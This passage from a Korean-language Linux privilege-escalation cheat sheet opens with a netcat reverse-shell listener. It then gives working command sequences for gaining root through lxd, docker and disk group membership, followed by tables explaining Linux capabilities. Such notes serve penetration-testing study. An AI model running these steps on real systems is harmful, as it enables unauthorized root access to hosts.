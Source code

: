 nc -lnvp 443
```

<br/><br/>
# Privileged Groups

## LXC / LXD (Docker와 유사)
```uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)```<br/>
```
unzip alpine.zip
lxd init
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
lxc exec r00t /bin/sh
```

## Docker
```docker run -v /root:/mnt -it ubuntu```

## Disk
```debugfs```

## ADM 
```uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)```<br/>
```ls -al /var/log```

<br/><br/>
# Capabilities

## Set Capability
```sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic```

| **Capability**         | **설명**                                                                      |
| ---------------------- | --------------------------------------------------------------------------- |
| `cap_sys_admin`        | 시스템 파일을 수정하거나 시스템 설정을 변경하는 등 관리자 권한으로 작업을 수행할 수 있습니다.                       |
| `cap_sys_chroot`       | 현재 프로세스의 루트 디렉토리를 변경해서 다른 방법으로는 접근할 수 없는 파일과 디렉토리에 접근할 수 있도록 해줍니다.          |
| `cap_sys_ptrace`       | 다른 프로세스에 연결하여 디버깅을 수행할 수 있으므로, 잠재적으로 중요한 정보에 접근하거나 다른 프로세스의 동작을 수정할 수 있습니다. |
| `cap_sys_nice`         | 프로세스의 우선순위를 높이거나 낮출 수 있으며, 이를 통해 원래는 제한되었을 리소스에 접근할 수 있게 됩니다.               |
| `cap_sys_time`         | 시스템 시계를 수정하여 타임스탬프를 조작하거나 다른 프로세스가 예상치 못한 방식으로 작동하도록 할 수 있습니다.              |
| `cap_sys_resource`     | 시스템 리소스 제한(예: 열려 있는 파일 기술자의 최대 수 또는 할당할 수 있는 최대 메모리 양)을 수정할 수 있습니다.         |
| `cap_sys_module`       | 커널 모듈을 로드하고 언로드할 수 있으므로 운영 체제의 동작을 수정하거나 중요한 정보에 액세스할 수 있는 가능성이 있습니다.       |
| `cap_net_bind_service` | 네트워크 포트에 바인딩하여 민감한 정보에 접근하거나 승인되지 않은 작업을 수행할 가능성이 있습니다.                     |

| **Capability Values** | **설명**                                                                                                                                                                 |
| --------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `=`                   | 이 값은 실행 파일에 대해 지정된 기능을 설정하지만, 어떠한 권한도 부여하지 않습니다. 실행 파일에 대해 이전에 설정된 기능을 지우고 싶을 때 유용할 수 있습니다.                                                                            |
| `+ep`                 | 이 값은 지정된 기능에 대한 유효하고 허용되는 권한을 실행 파일에 부여합니다. 이를 통해 실행 파일은 기능이 허용하는 작업을 수행할 수 있지만 기능이 허용하지 않는 작업은 수행할 수 없습니다.                                                            |
| `+ei`                 | 이 값은 지정된 기능에 대한 충분하고 상속 가능한 권한을 실행 파일에 부여합니다. 이를 통해 실행 파일은 기능이 허용하는 작업을 수행하고 실행 파일에 의해 생성된 자식 프로세스는 기능을 상속하고 동일한 작업을 수행할 수 있습니다.                                       |
```